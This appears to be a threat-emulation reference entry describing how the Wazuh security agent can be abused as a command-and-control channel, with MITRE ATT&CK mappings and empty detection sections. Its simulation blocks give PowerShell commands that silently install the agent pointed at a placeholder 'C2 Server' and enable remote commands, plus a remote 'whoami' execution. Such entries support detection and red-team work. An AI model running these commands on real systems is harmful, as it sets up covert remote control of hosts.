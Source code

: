 ```yaml
---
title: Wazuh
tags:
  - C2
  - Execution
references:
- https://securelist.com/miner-campaign-misuses-open-source-siem-agent/114022/
- https://documentation.wazuh.com/current/quickstart.html
files: []
---
```


Wazuh is a security platform that provides unified XDR and SIEM protection for endpoints and cloud workloads. The solution is composed of a single universal agent and three central components: the Wazuh server, the Wazuh indexer, and the Wazuh dashboard. 

## C2 Connection
### Description

Wazuh can be downloaded (or transfered) and installed on a system, configured for communication with a specified C2 server. Once Wazuh has remote command execution enabled and the service is started, the agent is ready for command and control operations.

### Simulation
```
powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
```

### MITRE ATT&CK

T1105: Ingress Tool Transfer
T1219: Remote Access Software

### Detections



## Remote Command Execution
### Description

Once the agent is connected to the "C2" server, the agent allows an adversary to execute commands

### Simulation
```
/var/ossec/bin/agent-control -R 'whoami'
```

### MITRE ATT&CK

T1059: Command and Scripting Interpreter
T1219: Remote Access Software

### Detections

